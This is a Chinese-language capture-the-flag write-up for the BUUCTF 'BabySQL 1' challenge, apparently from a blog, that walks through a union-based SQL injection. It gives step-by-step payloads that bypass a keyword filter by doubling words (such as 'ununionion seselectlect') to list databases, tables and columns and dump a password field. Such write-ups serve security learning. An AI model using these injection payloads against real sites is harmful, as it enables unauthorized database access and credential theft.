









# BUUCTF BabySQL 1
- 关键词 sql注入 绕过
## 题目描述
我们先随便输入一个账号密码，查看URL发现是通过PUT方式传递数据到后台的。  
我们首先判断是否存在[SQL注入](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)，我们尝试在username参数后加一个“ ’ ”，发现数据库直接爆出了错误，说明是存在注入的。  
  

## 解题步骤
接下来我们用万能密码试一下，首先我们判断下这里是字符型注入还是数值型注入，先尝试1’ or ‘1’=‘1%23  
  
发现不可行，所以我们再尝试数值型注入，输入：1’ or 1=1%23，爆出了数据库错误，猜测是过滤了or（其实这里也过滤了and），尝试双写or试下，成功爆出。payload如下：

```
`1' or 1=1%23`

- 1

```

  
  
接下来是获取字段数，payload如下：

```
`admin' oorrder bbyy 3%23`

- 1

```

  
可以看出这里是过滤了or的，其实这里by也被过滤了，所以我们尝试双写绕过，pyaload如下：

```
`admin' oorrder bbyy 3%23`

- 1

```

  
接下来就是数据库名：union和select同样被过滤了，同样尝试双写绕过，payload如下：

```
`' ununionion seselectlect 1,2,database()%23`

- 1

```

  
再下来是表名，经测试frominfor中的or以及where等字符被过滤了，payload如下：

```
`ununionion seselectlect 1,2,group_concat(table_name)frfromom infoorrmation_schema.tables whwhereere table_schema='geek'%23`

- 1

```

  
再是字段名，payload如下：

```
`' ununionion seselectlect 1,2,group_concat(column_name)frfromom infoorrmation_schema.columns whwhereere table_schema='geek' anandd table_name='b4bsql'%23`

- 1

```

  
最后是字段内容，payload如下：

```
`'  ununionion seselectlect 1,2,group_concat(passwoorrd) frfromom geek.b4bsql %23`

- 1

```

  
这样就得到了flag。

## 思路总结

1.既然爆出数据库错误，说明系统没有屏蔽报错信息，可以尝试union注入。  
2.注入发现过滤了一些敏感字符，尝试大小写，双写等绕过。  
3.注入前一定要判断是数值型注入还是字符型注入。

 